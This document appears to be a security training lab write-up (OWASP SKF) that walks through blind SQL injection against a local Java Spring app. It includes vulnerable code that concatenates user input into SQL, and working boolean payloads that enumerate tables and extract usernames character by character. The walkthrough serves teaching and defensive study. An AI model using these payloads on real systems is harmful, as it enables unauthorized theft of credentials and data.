 # Java - SQLI (Blind)

## Running the app Java

First make sure java is installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](../../.gitbook/assets/java/SQLI-blind/1.png)

```
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/java/SQLI-blind/2.png)

```
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true (or 1=1). This should result in the application run as intended without errors.

![](../../.gitbook/assets/java/SQLI-blind/3.png)

```
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false (and 1=2). This should result in the application returning an error.

![](../../.gitbook/assets/java/SQLI-blind/4.png)

```
http://localhost:5000/home/1 AND 1=2
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
    List<Page> pages = jdbcTemplate.query(sql, (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](../../.gitbook/assets/java/SQLI-blind/5.png)

```
http://localhost:5000/home/1
```

![](../../.gitbook/assets/java/SQLI-blind/6.png)

```
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](../../.gitbook/assets/java/SQLI-blind/7.png)

```
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](../../.gitbook/assets/java/SQLI-blind/8.png)

```
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](../../.gitbook/assets/java/SQLI-blind/9.png)

### Step 4

From the _user_ table is possible to see that the table contains the columns _UserId_ , _UserName_ and _Password_

![](../../.gitbook/assets/nodejs/SQLI-blind/10.png)

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](../../.gitbook/assets/java/SQLI-blind/11.png)

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](../../.gitbook/assets/java/SQLI-blind/12.png)

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-java/query/" %}
